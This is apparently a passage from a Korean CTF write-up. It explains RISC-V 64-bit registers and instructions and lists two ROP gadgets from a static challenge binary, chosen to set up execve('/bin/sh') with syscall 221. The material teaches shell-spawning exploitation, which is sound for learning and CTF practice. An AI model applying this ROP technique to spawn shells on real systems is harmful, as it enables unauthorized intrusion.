 그런데, 문제는 아키텍쳐가 RISC-V기 때문에 관련 내용을 알아보다가 풀이 시간이 길어졌다.

내가 짧게나마 이해한 바로는, RISC-V 64비트 아키텍쳐는 다음과 같았다.

- 레지스터
  - `a0` ~ `a7` : 함수 인자
  - `s0` ~ `s11` : saved register (함수 시작 부분과 끝 부분에 스택에 저장되었다가 레지스터로 복구)
  - `a7` : syscall number
  - `ra` : Return Address
  - `sp` : 스택 포인터
  - `pc` : Program Counter (RIP라고 생각하면 편함)

- 어셈블리어
  - `ld` : 메모리에서 레지스터로 값을 가져올 때 사용
  - `sd` : 레지스터에서 스택으로 값을 저장할 때 사용
  - `li` : 레지스터로 상수를 로드할 때 사용
  - `mv` : 레지스터에서 레지스터로 값을 옮길 때 사용
  - `ecall` : syscall
  - `ret` : `ra` 레지스터에 있는 값을 `pc` 레지스터로 옮김
  - `j*` : `jmp`
  - `jal*` : `call`

그리고, 이제 할 것은 `execve("/bin/sh", 0, 0)`을 실행시키기 위한 유용한 gadget을 찾는 일이다.

- `a0` : `"/bin/sh"`
- `a1` : 0
- `a2` : 0
- `a7` : 221

아참, syscall table은 [여기](https://marcin.juszkiewicz.com.pl/download/tables/syscalls.html)서 구했다.

마침 문제 바이너리가 static으로 컴파일되어 있기 때문에, 좋은 것들이 많다.

나는 다음과 같은 gadget을 사용했다.

```
gadget1
   4a1e8:   60a6                    ld  ra,72(sp)
   4a1ea:   6406                    ld  s0,64(sp)
   4a1ec:   74e2                    ld  s1,56(sp)
   4a1ee:   7942                    ld  s2,48(sp)
   4a1f0:   79a2                    ld  s3,40(sp)
   4a1f2:   7a02                    ld  s4,32(sp)
   4a1f4:   6ae2                    ld  s5,24(sp)
   4a1f6:   6b42                    ld  s6,16(sp)
   4a1f8:   6ba2                    ld  s7,8(sp)
   4a1fa:   6161                    addi    sp,sp,80
   4a1fc:   8082                    ret

gadget2
   2b568:	68e2                	ld	a7,24(sp)
   2b56a:	6802                	ld	a6,0(sp)
   2b56c:	65a2                	ld	a1,8(sp)
   2b56e:	6542                	ld	a0,16(sp)
   2b570:	87d6                	mv	a5,s5
   2b572:	4701                	li	a4,0
   2b574:	4681                	li	a3,0
   2b576:	4601                	li	a2,0
   2b578:	9a02                	jalr	s4
```
